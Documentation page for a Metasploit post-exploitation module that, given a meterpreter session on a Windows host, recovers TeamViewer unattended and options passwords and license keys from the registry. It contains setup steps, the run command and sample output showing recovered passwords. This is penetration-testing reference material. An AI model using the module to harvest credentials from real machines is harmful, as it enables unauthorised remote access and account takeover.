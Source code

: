 ## Vulnerable Application

Any Windows host with a `meterpreter` session and TeamViewer 7+ installed. The
following passwords will be searched for and recovered:

- Options Password -- All module-supported TeamViewer versions (7+)
- Unattended Password -- TeamViewer versions 7 - 9
- License Key -- TeamViewer versions 7 - 14

### Installation Steps

1. Download the latest installer of TeamViewer.
2. Select "Custom Install With Unattended Password" during installation
3. After installation, navigate to
   `Extra > Options > Security > Advanced > Show Advanced Settings` and set the
   "Options Password"
   - Options can also be exported to a .reg file from here.

## Verification Steps

1. Get a `meterpreter` session on a Windows host.
2. Do: `run post/windows/gather/credentials/teamviewer_passwords`
3. If the system has registry keys for TeamViewer passwords they will be printed
   out.

## Options

None.

## Scenarios

```
meterpreter > run post/windows/gather/credentials/teamviewer_passwords

[*] Finding TeamViewer Passwords on WEQSQUGO-2156
[+] Found Exported Unattended Password: P@$$w0rd
[+] Found Options Password: op*****5
[+] Passwords stored in: /home/blurbdust/.msf4/loot/20200207052401_default_***.***.***.***_host.teamviewer__588749.txt
meterpreter >
```
